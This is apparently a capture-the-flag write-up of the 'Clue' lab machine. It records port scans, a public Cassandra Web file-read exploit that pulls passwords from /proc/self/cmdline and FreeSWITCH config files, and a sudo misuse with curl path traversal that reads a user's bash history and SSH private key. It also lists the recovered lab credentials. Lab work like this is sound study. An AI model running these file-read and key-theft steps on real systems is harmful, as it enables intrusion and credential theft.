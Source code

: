 # Clue \[Hard]

## Report

Cassandra and Freeswitch are two services running whose source files are available via 'backup' SMB share. A file read exploit exists for the former where we extract creds for 'cassie' by reading `/proc/self/cmdline` . An authenticated RCE exploit exists which requires us to extract creds from Freeswitch using the Cassandra exploit after a few Google searches.&#x20;

Cassie can run Cassandra as sudo, remember we already exploited file read via this service, now as sudo we will have system-wide access. Read user 'anthony' SSH key and bash\_history which indicates it is the same as root SSH key.

## Loot

### Enumeration

192.168.106.240

```
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  0a�▒�U           Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             Thin httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: thin
|_http-title: Cassandra Web
|_http-favicon: Unknown favicon MD5: 68089FD7828CD453456756FE6E7C4FD8
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: Hosts: 127.0.0.1, CLUE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-10-02T10:13:07
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: clue
|   NetBIOS computer name: CLUE\x00
|   Domain name: pg
|   FQDN: clue.pg
|_  System time: 2025-10-02T06:13:10-04:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m40s, deviation: 2h18m36s, median: 39s

```

#### 80

```
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.38 (Debian)
backup - 403
```

#### 3000 (Cassandra)

```
Cassandra::Errors::UnauthorizedError: User cassie has no SELECT permission on <table system_traces.sessions> or any of its parents
3.11.13

./usr/share/doc/cassandra/CQL.html
 alice:password_a OR alice:PASSWORD_A
```

#### 8021 (Freeswitch)

```
freeswitch/etc/freeswitch/directory
./brian.xml:      <!--<param name="password" value="2007"/>--> 
./brian.xml:      <param name="vm-password" value="9999"/><!--if vm-password is omitted password param is used-->

┌──(jtripz㉿kali)-[~/…/freeswitch/etc/freeswitch/autoload_configs]
└─$ cat event_socket.conf.xml 
<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="nat-map" value="false"/>
    <param name="listen-ip" value="::"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="ClueCon"/>
```

### Attack Vectors

Cassandra 0.5 Arbitrary File Read, use it to read FreeSwitch creds too

```
python3 49362.py 192.168.106.240 /etc/passwd 

cassie:x:1000:1000::/home/cassie:/bin/bash
freeswitch:x:998:998:FreeSWITCH:/var/lib/freeswitch:/bin/false
anthony:x:1001:1001::/home/anthony:/bin/bash

python3 49362.py 192.168.106.240 /proc/self/cmdline
/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330


python 49362.py 192.168.106.240 ../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml
<param name="password" value="StrongClueConEight021"/>
```

### PrivEsc

```
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                                                                           
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9042          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8021            0.0.0.0:*               LISTEN      544/freeswitch      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:7000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:43711         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:7199          0.0.0.0:*               LISTEN      -   
```

```
Cassie
sudo cassandra-web -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330
Only listens on localhost 
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      -   
ctrl+Z
bg

curl --path-as-is http://127.0.0.1:4444/../../../../../../../../home/anthony/.bash_history
clear
ls -la
ssh-keygen
cp .ssh/id_rsa.pub .ssh/authorized_keys
sudo cp .ssh/id_rsa.pub /root/.ssh/authorized_keys

curl --path-as-is http://127.0.0.1:4444/../../../../../../../../home/anthony/.ssh/id_rsa
```

### Creds

`cassie:SecondBiteTheApple330`

`freeswitch:StrongClueConEight021`

### Proof

* If a service is running, we can intercept the command used to start the service in `/proc/self/cmdline`
* Shoot those exploits even though you don't know the version of the service running
* Read your exploits see what they doin you get a lot of good hints
* Suspend a process and run it in background using `bg`
* Seeing you can run a command via sudo doesn't mean no args allowed try it out first twin
